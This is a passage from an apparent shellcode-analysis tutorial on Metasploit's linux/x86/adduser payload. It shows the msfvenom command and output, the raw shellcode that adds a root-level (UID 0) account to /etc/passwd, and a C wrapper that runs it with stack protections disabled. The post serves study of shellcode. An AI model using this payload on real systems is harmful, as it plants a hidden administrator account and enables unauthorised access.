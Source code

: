 I skipped over the advanced settings as they won't be discussed in this post.

As for the basic options, there are 3 values we need to set: `PASS`, `SHELL` and `USER`. Executing the payload will create a user with UID 0 using the credentials provided (`USER`/`PASS`), using `SHELL` as default shell.  

---

## 2\. Generating shellcode

```console
root@kali:~/Desktop/SLAE# msfvenom -p linux/x86/adduser USER=abatchy PASS=killem -f c  
No platform was selected, choosing Msf::Module::Platform::Linux from the payload  
No Arch selected, selecting Arch: x86 from the payload  
No encoder or badchars specified, outputting raw payload  
Payload size: 94 bytes  
Final size of c file: 421 bytes  
unsigned char buf[] =   
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"  
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"  
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x25\x00\x00\x00\x61\x62"  
"\x61\x74\x63\x68\x79\x3a\x41\x7a\x62\x47\x66\x50\x36\x38\x38"  
"\x4e\x74\x61\x2e\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69"  
"\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a"  
"\x01\x58\xcd\x80";  
```    

  
Next, let's put the shellcode inside a C wrapper.  

```cpp
/*  
 adduserWrapper.c  
By Abatchy  
gcc adduserWrapper.c -fno-stack-protector -z execstack -o adduserWrapper.out  
*/  
  
#include <stdio.h>  
#include <string.h>  
  
unsigned char buf[] =   
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"  
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"  
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x25\x00\x00\x00\x61\x62"  
"\x61\x74\x63\x68\x79\x3a\x41\x7a\x62\x47\x66\x50\x36\x38\x38"  
"\x4e\x74\x61\x2e\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69"  
"\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a"  
"\x01\x58\xcd\x80";  
  
int main()  
{  
    printf("Shellcode size: %d\n", strlen(buf));  
    int (*ret)() = (int(*)())buf;  
    ret();  
}  
```    
